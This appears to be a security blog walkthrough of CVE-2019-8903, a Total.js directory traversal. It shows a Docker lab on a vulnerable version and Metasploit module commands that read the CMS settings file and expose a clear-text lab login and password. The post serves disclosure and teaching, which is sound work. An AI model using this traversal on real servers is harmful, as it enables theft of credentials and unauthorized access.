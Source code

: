 ```yaml
---
layout: default
---
```


# Total.js Directory Traversal: try this at home

[Total.js](https://www.totaljs.com) is a framework for Node.js platform written in pure JavaScript similar to PHP's Laravel or Python's Django or ASP.NET MVC. It can be used as web, desktop, service or IoT application.

Affected versions of this framework are vulnerable to Directory Traversal. This attack, also known as Path Traversal, aims to access files and directories that are stored outside the intended folder.

In order to try to exploit the vulnerability we need a running application on top of Total.js. The easy way is to use the [Total.js CMS](https://github.com/totaljs/cms) offered by Total.js developers.

In the following example we can see:
* how to set-up the testing lab with the latest Total.js CMS on top of a vulnerable version of Total.js
* how to use the Metasploit module for exploit the Directory Traversal vulnerability in order to read the CMS users credentials

Let's go!

## Lab set-up
The most fashion and easy way to set-up a vulnerable test host is [docker](https://www.docker.com). With the following steps we can create and run a vulnerable Total.js docker image.

Create a directory where store image source.

```
root@kali:~# mkdir totaljs
```

cd into the new directory and clone the [Total.js CMS](https://github.com/totaljs/cms) from GitHub, version 12.0.0 at the time of writing.

```
root@kali:~# cd totaljs && git clone https://github.com/totaljs/cms.git
```
In order to have at least one user in our CMS, replace the content of `cms/databases/settings.json` with this:
 
 ```
 {"componentator":false,"smtpoptions":"","smtp":"","languages":[],"signals":[],"users":[{"id":"f92trzhgdkvu1mt","name":"Fabio Cogno","login":"fabio.cogno","password":"certimetergroup","roles":["Dashboard","Events","Newsletters","Notices","Pages","Posts","Settings","Subscribers","Widgets"]}],"navigations":[{"id":"mainmenu","name":"Main menu"}],"notices":[{"id":"tweet","name":"Tweet"}],"posts":[{"id":"blog","name":"Blog"}],"templatesnewsletters":[{"id":"newsletter","name":"Default"}],"templatesposts":[{"id":"post","name":"Default"}],"templates":[{"id":"default","name":"Default"},{"id":"navigation","name":"With navigation"},{"id":"fluid","name":"Fluid"}],"url":"http://127.0.0.1:8000","emailsender":"info@totaljs.com","emailreply":"info@totaljs.com","emailcontactform":"info@totaljs.com"}
 ```
Then, in the totaljs directory, create the `dockerfile` and open it with your favorite editor (e.g.: `nano dockerfile`). This file allow us to create an image from a node v8 image, install a vulnerable version of Total.js framework from NPM and than copy the Total.js CMS in it:

```
FROM node:8
WORKDIR /home/node/totaljs
COPY cms/package*.json ./
RUN npm install
COPY cms/ .
RUN npm install total.js@3.2.2
EXPOSE 8000
CMD ["node","debug.js"]
```
Ok, now build the Total.js vulnerable image:

```
root@kali:~/totaljs# docker build -t totaljs:3.2.2 .
```
When the build process finished, run a container with the `totaljs:3.2.2` image and bind the default port of Total.js (8000) with the host's 8322 port:

```
root@kali:~/totaljs# docker run -p 8322:8000 totaljs:3.2.2 --name totaljs-3.2.2
```

If everything has been successful, browse to [http://localhost:8322/](http://localhost:8322/). 

To access to the admin panel, browse to [http://localhost:8322/admin/](http://localhost:8322/admin/).

## Exploiting the vuln!

In order to exploit the vulnerability, setting up the metasploit module as indicated in the [README.md](github.com/fabiocogno/metasploit-modules/README.md) file.

Start Metasploit console:

```
root@kali:~# msfconsole
```
When started, select the `totaljs_traversal` module:

```
msf5 auxiliary(scanner/http/totaljs_traversal) > use auxiliary/scanner/http/totaljs_traversal
```
Now, we would verify if the host is vulnerable to the Directory Traversal.

The default *ACTION* for this module is the `CHECK` action that reveale if the host:port is vulnerable to Directory Traversal. Furthermore, this action gather some other useful informations like the framework version, the running application name, the running application version, etc.

In order to check our host in the lab, set the target host and port:

```
msf5 auxiliary(scanner/http/totaljs_traversal) > set rhost localhost
rhost => localhost
msf5 auxiliary(scanner/http/totaljs_traversal) > set rport 8322
rport => 8322
```
Now, `run` the check action:
```
msf5 auxiliary(scanner/http/totaljs_traversal) > run
```
The output look like this one:

```
[*] Total.js version is: ^3.2.2
[*] App name: CMS
[*] App description: A simple and powerful CMS solution written in Total.js / Node.js.
[*] App version: 12.0.0
[*] Auxiliary module execution completed
```
Ok, our Total.js testing container is vulnerable, the framework version is, strangely, 3.2.2. and the running application is the Total.js CMS at version 12.0.0.

As promised, we exploit the Directory Traversal vulnerability in order to leak the users credentials of the Total.js CMS. To do this, we can use the `READ` action that allow to read files from the Metasploit console (alternatively you can use the `DOWNLOAD` action to dowload the file). The Total.js CMS store the users credentials into the *settings.json* file in the *databases/* directory. Then, set the action:

```
msf5 auxiliary(scanner/http/totaljs_traversal) > set action READ
action => READ
```
And then set-up the `databases/settings.json` file and try to retrieve it from the CMS:

```
msf5 auxiliary(scanner/http/totaljs_traversal) > set FILE databases/settings.json
FILE => databases/settings.json
msf5 auxiliary(scanner/http/totaljs_traversal) > run
```

The module exploit the vulnerability and retrieve the file. The output of the module is shown below:

```
[*] Getting databases/settings.json...
{"componentator":false,"smtpoptions":"","smtp":"","languages":[],"signals":[],"users":[{"id":"f92trzhgdkvu1mt","name":"Fabio Cogno","login":"fabio.cogno","password":"certimetergroup","roles":["Dashboard","Events","Newsletters","Notices","Pages","Posts","Settings","Subscribers","Widgets"]}],"navigations":[{"id":"mainmenu","name":"Main menu"}],"notices":[{"id":"tweet","name":"Tweet"}],"posts":[{"id":"blog","name":"Blog"}],"templatesnewsletters":[{"id":"newsletter","name":"Default"}],"templatesposts":[{"id":"post","name":"Default"}],"templates":[{"id":"default","name":"Default"},{"id":"navigation","name":"With navigation"},{"id":"fluid","name":"Fluid"}],"url":"http://127.0.0.1:8000","emailsender":"info@totaljs.com","emailreply":"info@totaljs.com","emailcontactform":"info@totaljs.com"}
[*] Auxiliary module execution completed
```

You can observe some useful informations, especially the username `"login":"fabio.cogno"` and the clear-text password `"password":"certimetergroup"`. Now we can browse to [http://localhost:8322/admin/](http://localhost:8322/admin/) and try to login with the discovered credentials.

## Time Line

| Date | What |
| --- | --- |
| 2019/02/18 | Vulnerability reported to Total.js and snyk teams. |
| 2019/02/20 | snyk disclose the vulnerability. |
| 2019/02/24 | Metasploit module released. |

## Summary
This post details how a Directory Traversal in the Total.js framework lead to credentials leak in the Total.js CMS. The vulnerability remained uncovered in the Total.js core for over **3 years**. It became non-exploitable in versions **3.2.4**.

## References

* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8903](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8903)
* [https://blog.totaljs.com/blogs/news/20190213-a-critical-security-fix/](https://blog.totaljs.com/blogs/news/20190213-a-critical-security-fix/)
* [https://snyk.io/vuln/SNYK-JS-TOTALJS-173710](https://snyk.io/vuln/SNYK-JS-TOTALJS-173710)
* [https://www.npmjs.com/package/total.js](https://www.npmjs.com/package/total.js)
* [https://github.com/totaljs/framework](https://github.com/totaljs/framework)

## Thanks

We would like to thank the volunteers of the snyk and Total.js teams which have been very friendly and acted professionally when working with us on this issue.

Special thanks to Riccardo Krauter for the discovery and Fabio Cogno for the Metasploit module development.

---

[back](./)